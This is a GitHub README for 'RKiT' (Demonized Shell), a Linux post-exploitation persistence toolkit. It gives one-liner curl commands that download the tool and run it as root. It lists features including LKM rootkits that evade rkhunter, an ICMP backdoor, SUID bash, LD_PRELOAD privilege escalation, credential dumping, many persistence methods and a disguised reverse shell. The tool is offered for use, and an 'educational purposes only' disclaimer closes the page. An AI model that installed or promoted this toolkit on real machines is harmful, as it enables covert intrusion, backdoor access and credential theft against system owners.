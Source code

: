 <h1 align="center">「😈」About RKiT </h1>

<p align="center"><img src="carbon.png"></p>

Demonized Shell is an Advanced Tool for persistence in linux.

### Install

```
git clone https://github.com/EmilioHulbert/RKiT.git
cd RKiT
chmod +x demonizedshell.sh
sudo ./demonizedshell.sh
```

### One-Liner Install

Download RKiT with all files:
```
curl -L https://github.com/EmilioHulbert/RKiT/archive/main.tar.gz | tar xz && cd RKiT-main && sudo ./demonizedshell.sh
```

Load RKiT statically (without the static-binaries directory):
```
sudo curl -s https://raw.githubusercontent.com/EmilioHulbert/RKiT/main/static/demonizedshell_static.sh -o /tmp/demonizedshell_static.sh && sudo bash /tmp/demonizedshell_static.sh
```

### Demonized Features

* Auto Generate SSH keypair for all users
* APT Persistence 
* Crontab Persistence
* Systemd User level
* Systemd Root Level
* Bashrc Persistence
* Privileged user & SUID bash
* LKM Rootkit Modified, Bypassing rkhunter.
* LKM Rootkit With file encoder. persistent icmp backdoor and others features.
* ICMP Backdoor 
* LD_PRELOAD Setup PrivEsc
* Static Binaries For Process Monitoring, Dump credentials, Enumeration, Trolling and Others Binaries.

### Pending Features

* [X] Process Injection
* [x] install for example: curl github.com/test/test/demonized.sh | bash
* [x] Static RKiT
* [x] ELF/Rootkit Anti-Reversing Technique
* [ ] PAM Backdoor
* [x] rc.local Persistence
* [x] init.d Persistence
* [x] motd Persistence
* [x] Persistence via ACL.
* [x] Reverse shell with a process name of your choice.
* [ ] Udev persistence.

And other types of features that will come in the future.

## Contribution

If you want to contribute and help with the tool, please contact me on twitter: @EmilioHulbert

## Note

> We are not responsible for any damage caused by this tool, use the tool intelligently and for educational purposes only.
